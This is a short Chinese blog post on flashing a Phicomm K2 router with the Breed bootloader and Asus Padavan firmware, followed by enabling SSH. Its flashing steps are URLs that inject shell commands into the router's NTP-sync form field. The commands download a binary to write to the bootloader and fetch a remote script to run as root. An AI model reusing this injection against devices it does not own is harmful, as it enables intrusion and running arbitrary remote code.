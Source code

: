 ```yaml
---
title: 斐讯K2 刷入bread／华硕固件 科学上网
date: 2016-8-17 10:38:45
tags: [ss]
---
```


斐讯K2，比较奇葩的一家公司，399元，一个月后返现399，相当于免费得一个路由器，可以自用，也可以放闲鱼卖了。


<!-- more -->

## 刷机

一键刷华数

> 如果想只刷入Breed Web，就可以在浏览器中打开(一个符号都不能少)：

````
　　http://192.168.2.1/goform/gra_NTPSyncWithLocal?text_year="2016|`if wget -O /tmp/breed.bin http://breed.hackpascal.net/breed-mt7620-phicomm-psg1208.bin;then mtd_write write /tmp/breed.bin Bootloader;echo breed ok! >/etc_ro/web/index.asp;fi`"

````

> 如果想一并刷入Breed Web和华硕Padavan固件，直接在浏览器中打开以下链接即可：


````
　　http://192.168.2.1/goform/gra_NTPSyncWithLocal?text_year="2016|`if wget -O /tmp/asus.sh http://code.taobao.org/svn/asus_bin/asus.sh;then sh /tmp/asus.sh;fi`"

````

## 开启 ssh

系统管理 - 服务 开启 ssh

````
    ssh admin@192.168.123.1
````

